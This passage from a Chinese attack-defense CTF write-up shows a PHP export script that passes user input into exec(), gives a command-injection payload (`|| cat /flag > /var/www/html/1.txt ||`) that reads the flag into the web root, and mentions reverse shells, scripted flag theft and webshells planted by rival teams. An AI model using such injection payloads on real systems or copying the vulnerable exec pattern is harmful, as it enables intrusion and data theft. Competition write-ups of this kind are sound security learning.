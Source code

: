 export.php

```
<?php
	if (isset($_POST['name'])){
	$name = $_POST['name'];
	exec("tar -cf backup/$name images/*.jpg");
	echo "<div class=\"alert alert-success\" role=\"alert\">
	导出成功,<a href='backup/$name'>点击下载</a></div>"}
?>
```

老套路，同web2

payload: `|| cat /flag > /var/www/html/1.txt ||`

## 艰难的权限维持

其实AWD比赛刚开始的时候，最重要的是维持权限而不是急着交flag。

当我还在审第一个web的时候，看到预留后门就问队友要不要给他框架弹个shell

结果他告诉我框架爆炸了。。。弹shell一直500。。。

缓缓打出三个问号。。。喵喵喵？？？

以前都是用团队的这个框架没问题，结果今天死活连不上。。。。

GG，这tm咋整啊，31个队手工维权玩个毛啊

所以就只能搞一些骚操作

### 循环批量GET FLAG

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439333-0272d70a-d48e-4ea0-8b0c-488bb973b2a0.png)

撸了一串脚本，来回跑，然后加上接口自动提交，没有框架只能这样了

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439456-682bfefe-270a-40d5-9ca1-0712254e7bd3.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439603-42b2eb9f-f6f0-4dea-9dd1-5830ff17dd7a.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439714-005dffca-341a-4d39-90a8-3d255e10ecaf.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439834-e3382207-29ec-407d-9435-6131fcbf5403.png)

### 乌鸦坐飞机

对，没错，我们就是乌鸦，坐了别的队的飞机。

自己靶机的流量日志上发现了别的队伍的payload

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900439936-bb3225a0-15bd-4fd5-9bf3-a1a082d6f8a4.png)

写了个脚本看了下，几乎所有的队伍都被种上了这个师傅的马
